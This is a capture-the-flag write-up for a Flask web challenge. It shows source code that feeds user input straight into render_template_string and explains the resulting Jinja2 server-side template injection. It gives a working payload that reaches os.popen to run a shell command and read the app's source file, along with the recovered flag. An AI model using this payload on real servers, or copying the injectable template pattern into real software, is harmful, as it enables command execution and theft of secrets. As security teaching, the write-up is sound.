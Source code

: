 # bro_visited_his_site
Point count: 100pts

Difficulty: easy

Provided files: bro_visited_his_site.zip

Url: https://bro-visited-his-site.jellyc.tf/

Description: bro stored his secrets in the flask app config
# 

Upon visiting the website, it seems like we type anything in this box and it just reflects what we put in the box.

Seeing this, I immediately thought that our input might not be sanitized properly, so I took a look at the source code.

```
#!/usr/bin/env python3
from flask import Flask, request, render_template_string, send_from_directory

app = Flask(__name__)
app.config["FLAG"] = "jellyCTF{redacted}"

@app.route("/")
def index():
    return """
        <img src="/static/bro.jpg" />
        <form action="/response" method="get">
            <textarea cols="50" name="word"></textarea>
            <input type="submit" value="go">
        </form>
    """

@app.route("/response")
def response():
    word = request.args.get("word", "")

    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
    ''')

@app.route('/static/<path:path>')
def send_static(path):
    return send_from_directory('static', path)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8081, debug=True)
```

Yup! We see that in the response route, specifically in the way it uses render_template_string to render the user input, the users input is put directly into the template without proper sanitization. This makes the website vulnerable to `Server-Side Template Injection (SSTI)`

Once knowing this, I used hacktricks SSTI Jinja 2 SSTI payloads (because we know the website is running with flask) and kept trying payloads until one worked.

This one worked!

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`

*Note: `bros_site.py`, as mentioned above, contains the secret in the flask config, hence why we need to read it*

Once injected into the `word` parameter, we get this:

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/0921d7e0-7d2f-4d90-a830-4cf1e095102d)

And there it is! Our flag!

Final flag: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`

